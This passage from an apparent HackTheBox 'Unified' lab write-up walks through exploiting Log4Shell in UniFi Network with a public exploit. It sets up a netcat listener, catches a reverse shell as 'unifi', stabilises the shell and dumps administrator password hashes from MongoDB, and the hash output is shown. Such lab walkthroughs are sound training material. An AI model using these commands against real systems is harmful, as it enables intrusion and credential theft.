 ```bash
apt update && apt install openjdk-11-jre maven

git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi

cd Log4jUnifi 

python3 -m venv venv

source venv/bin/activate

pip3 install -r requirements.txt

mvn package -f utils/rogue-jndi/
```

Now we open a listener with [Netcat](../../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/Documenti/GitTools]
└─$ nc -lvnp 1337            
```

And we execute the [Exploit](../../../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) :

```bash
python3 exploit.py -u http://unified.htb:8443 -i 10.10.14.108 -p 1337  
```

We should have a shell as unifi :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/Documenti/GitTools/Log4jUnifi]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.108] from (UNKNOWN) [10.129.96.149] 42736
whoami
unifi
```
## Shell Stabilization

For a better shell, execute the following commands :

```
script /dev/null -c bash 
export TERM=xterm 
"ctrl + x" 
stty raw -echo;fg
```

We can dump a JSON array of users and their password hashes using this command : `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"` :

```
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
        "time_created" : NumberLong(1640900495),
        "last_site_name" : "default",
        "ui_settings" : {
```
